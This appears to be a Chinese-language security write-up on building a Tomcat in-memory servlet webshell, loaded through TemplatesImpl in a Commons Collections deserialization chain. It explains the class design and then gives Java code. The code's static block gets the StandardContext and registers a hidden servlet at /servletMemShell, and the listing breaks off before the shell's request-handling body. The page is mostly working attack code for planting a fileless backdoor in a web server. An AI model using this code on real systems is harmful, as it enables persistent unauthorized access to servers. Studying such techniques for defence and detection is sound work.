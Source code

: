 CC链自己肯定有，懒得贴了

之前复现是直接extends继承的HttpServlet，因为TemplatesImpl需要继承AbstractTranslet的原因，不能同时继承两个类，所以看下能不能替换HttpServlet

HttpServlet继承了GenericServlet

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typoraimage-20250225214210834.png)

GenericServlet实现了Servlet，ServletConfig，Serializable接口

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typoraimage-20250225214234418.png)

很明显，Servlet接口的service方法就是可以用来替换doGet、doPost的方法

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typoraimage-20250225214334624.png)

所以Java代码下，用kingkk师傅构造的从ApplicationFilterChain取resquest 的 servlet+TemplatesImpl code如下：

```java
package org.example.tomcatmemshell.servlet;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
import org.apache.catalina.Context;
import org.apache.catalina.WebResourceRoot;
import org.apache.catalina.core.*;
import org.apache.catalina.loader.WebappClassLoaderBase;

import javax.servlet.*;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.IOException;
import java.lang.reflect.Field;
import java.lang.reflect.Modifier;
import java.util.Enumeration;

public class ServletMemShell extends AbstractTranslet implements Servlet, ServletConfig, java.io.Serializable{
    private String message;

    static {
        try {
            //获取StandardContext
//            StandardContext standardContext = getStandardContext1();
            StandardContext standardContext = getStandardContext2();
            if(standardContext != null){
                //自定义StandardWrapper注册进StandardContext
                ServletMemShell servletMemShell = new ServletMemShell();
                StandardWrapper standardWrapper = null;
                standardWrapper = (StandardWrapper) standardContext.createWrapper();
                standardWrapper.setName("servletMemShell");
                standardWrapper.setServletClass(servletMemShell.getClass().getName());
                standardWrapper.setServlet(servletMemShell);
                standardContext.addChild(standardWrapper);
                standardContext.addServletMappingDecoded("/servletMemShell", "servletMemShell");
            }
        } catch (Exception e) {
            throw new RuntimeException(e);
        }
    }

    @Override
```